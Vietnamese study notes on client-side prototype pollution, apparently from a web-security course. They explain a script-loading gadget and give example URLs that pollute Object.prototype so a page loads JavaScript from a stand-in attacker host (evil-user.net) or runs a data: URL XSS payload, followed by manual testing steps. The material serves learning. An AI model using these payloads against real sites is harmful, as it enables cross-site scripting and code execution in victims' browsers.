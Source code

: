 ```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

Nếu dev ko set `config.transport_url` thì JS sẽ fallback -> lấy từ prototype. 
Attacker pollute `Object.prototype.transport_url = "http://evil.com"`, config kế thừa -> script tải JS từ domain attacker. Dẫn tới XSS / chiếm quyền thực thi. 

Nếu prototype có thể bị ổ nhiễm thông qua một query parameter, ví dụ, thì attacker tấn công chỉ cần dụ nạn nhân truy cập 1 URL được chế tạo đặc biệt là có thể khiển trình duyệt nạn nhân tải và thực thi một file JavaScript độc hai từ domain do kẻ tấn công kiểm soát. 

```URL 
https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net
``` 

Bằng cách cung cấp `data:` URL, attacker có thể nhúng payload XSS vào trong query.

```URL 
https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);// 
``` 

Cái `//` là để comment lại đề phòng phía sau còn nữa thì có thể làm hỏng payload như `/example.js`

## Client-side prototype pollution vulnerabilities 

## Finding client-side prototype pollution sources manually 

Việc tìm nguồn prototype pollution thủ công chủ yêu là **thử và sai (trial and error)**, mình cần thử nhiều cách khau để thêm một thuộc tính tùy ý vào **Object.prototype**, cho đến khi tìm được một source cho phép điều này hoạt động. 

Các bước cần test prototype pollution như sau: 

1. Inject thuộc tính thông qua query String, URL fragment, và bất kỳ JSON input. 
`vulnerable-website.com/?__proto__[foo]=bar`
2. Trong trình duyệt, inspect `Object.prototype` để nhìn thấy nếu thành công thì đã polluted
```
Object.prototype.foo 

// Nếu mà xuất hiện "bar"  thì đã thành công 
// Còn xuất hiện undefine là thất bại 
``` 
3. Nếu thuộc tính không được thêm vào trong prototype, thử dùng kỹ thuật khác, như là đổi thành dấu chấm thay vì là dấu `[]`
`vulnerable-website.com/?__proto__.foo=bar`
4. Lặp lại quá trình. 

## Finding client-side prototype pollution source using DOM invader 

Dùng DOM invader để làm: 
- Inject thử các payload prototype pollution 
- Kiểm tra kết quả trong `Object.prototype`
- Báo cáo cho mình khi tìm thấy source khả nghi. 
